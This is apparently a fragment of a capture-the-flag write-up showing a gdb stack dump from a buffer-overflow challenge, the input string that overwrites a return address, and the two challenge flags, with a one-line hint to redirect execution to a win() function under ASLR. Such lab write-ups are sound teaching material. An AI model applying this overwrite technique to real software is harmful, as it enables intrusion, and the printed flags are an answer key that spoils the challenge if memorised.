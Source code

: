```bash
(gdb) x/40x $esp
0xffffd8e0:	0xffffdce0	0x41fbd000	0x45444342	0x49484746
0xffffd8f0:	0x4d4c4b4a	0x51504f4e	0x55545352	0x59585756
0xffffd900:	0x5d5c5b5a	0x61605f5e	0x65646362	0x5655580f
0xffffd910:	0xffffdc00	0xffffdc20	0xffffda2c	0x5655588e
0xffffd920:	0x434241b0	0x47464544	0x4b4a4948	0x4f4e4d4c
0xffffd930:	0x53525150	0x57565554	0x5b5a5958	0x5f5e5d5c
0xffffd940:	0x63626160	0x580f6564	0x00005655	0xf7fe8304
0xffffd950:	0xffffdb98	0x00000000	0xf7fd9a75	0xf7fe1f60
0xffffd960:	0xf7e1d2e5	0xf7fd9637	0x00000000	0xf7ffd858
0xffffd970:	0x00000000	0xffffdb94	0xffffdb90	0x0d696910
```

```bash
(gdb) next 6
Received product key: ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdeXUV

Congratulations!  The first flag is INSIDE-DEBUGGER
16	    fflush( stdout );
A debugging session is active.

	Inferior 1 [process 10797] will be killed.

Quit anyway? (y or n) [answered Y; input not from terminal]
```

For the second flag, click run to get the location of the `win()` function as ASLR is enabled and send the same input but replace the `win()` function address 

Flag: `MOVING-TARGET`
